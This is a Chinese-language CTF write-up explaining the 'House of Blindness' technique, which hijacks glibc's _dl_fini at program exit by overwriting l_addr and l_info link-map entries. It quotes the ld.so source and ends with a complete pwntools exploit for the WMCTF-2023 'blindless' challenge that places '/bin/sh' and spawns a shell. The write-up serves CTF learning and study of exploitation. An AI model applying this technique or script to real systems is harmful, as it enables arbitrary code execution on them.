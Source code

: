 ```yaml
---
title: GLIBC - exploitation-in-latest-glibc-0x01 House of Blindness
date: 2023-09-25 23:04:22
tags:
  - Glibc
---
```

# TLDR;

House of blindless 是一个涉及到 rtld 的利用方法，事实上 ld.so 里面确实还有很多被利用的潜力，后面涉及到 glibc 的比赛题目可能也会偏向于考察这部分内容。

直接以 `WMCTF-2023-blindless` 为例，附件链接：

[attachment](https://drive.google.com/file/d/1AF3JrobITUa0dj_bfVrcMBJXOQIJgM86/view?usp=sharing)

# Analysis

程序漏洞：

给了一个类似 bf 的 vm 程序，不过难得的逻辑很简单，可以实现在堆地址上加偏移的任意地址写，但是没有泄漏，这很明显需要某种 HOUSE 来打，这里考虑到 `house of blindless`：

低字节覆盖 `l->l_addr` 和 `l->l_info[DT_FINI_ARRAY/DT_FINI]->d_un.d_ptr`，即可调用 elf 中的任意函数，要求：

- 能够实现 elf 或 libc 范围内的任意地址写（本题可以分配大型堆块到 libc 前，进而实现 libc 范围内的任意写）

- 程序正常退出

参考到 ld.so 源码，elf/dl-fini.c 中的 \_dl_fini() 函数中：

```c
/* 其中关键定义如下： */
#define DT_INIT 12
#define DT_FINI 13
#define DT_FINI_ARRAY 26

/* Is there a destructor function?  */
if (l->l_info[DT_FINI_ARRAY] != NULL || l->l_info[DT_FINI] != NULL)
{
    /* When debugging print a message first.  */
    if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
        _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n",
                          DSO_FILENAME (l->l_name),
                          ns);

    /* First see whether an array is given.  */
    if (l->l_info[DT_FINI_ARRAY] != NULL) // 分支1
    {
        ElfW(Addr) *array =
            (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
        unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
        while (i-- > 0)
            ((fini_t) array[i]) ();
    }

    /* Next try the old-style destructor.  */
    if (l->l_info[DT_FINI] != NULL) // 分支2
        DL_CALL_DT_FINI (l, l->l_addr + l->l_info[DT_FINI]->d_un.d_ptr);
}
```

这里有两条分支，要劫持控制流就需要到达控制 `l->l_info[26] == 0` 绕过分支1，接下来分为能控制 elf+libc 和 仅能控制 libc 的两种情况：

**控制 elf+libc**：

> 由于能控制 elf，就可以改到 l->l_info[DT_FINI] 上具体的值，进而直接在 l_addr 的基础上进行任意 elf 地址调用。

```c
l->l_info[13]->d_un.d_ptr = <target> - elf_base;
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

**若仅能控制 libc**：

```c
/* 在 l->l_info[13] 附近找到其他 Elf64_Dyn 类型结构体，且其 d_un.d_ptr 正好满足我们需求 */
*(char *)l->l_addr = <target> & 0xff // 改写低位
l->l_info[26] = 0;
/* 通过控制 _rtld_global+2312 来控制第一个参数 */
```

---

# Exploitation

于是利用第二种思路得到本题 exp：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)


payload = b""


def go_forward(distance):
    global payload
    payload += b"@"
    payload += p32(distance)


def next_byte():
    global payload
    payload += b">"


def next_long():
    global payload
    payload += b"+"


def change_byte(data):
    global payload
    lg("data", data)
    payload += b"."
    payload += p8(data)


def edit(data):
    global payload
    for i in range(len(data)):
        change_byte(data[i])
        next_byte()


DT_FINI = 13
DT_INIT = 12
DT_FINI_ARRAY = 26
_rtld_global_to_chunk = 0x323060
arg0 = _rtld_global_to_chunk + 2312
l_addr = 0x324190


go_forward(arg0 - 0x10)
edit(b"/bin/sh\x00")
go_forward(l_addr - arg0 - 8)
edit(p8(0xE0))
go_forward(0xA8 - 1)
edit(p8(0xA8))
go_forward(0x68 - 1)
edit(p64(0))

payload += b"q"

ru(b"Pls input the data size\n")
sl(i2b(0x100000))
ru(b"Pls input the code size\n")
sl(i2b(0x100))
ru(b"Pls input your code\n")
s(payload)

ia()
```
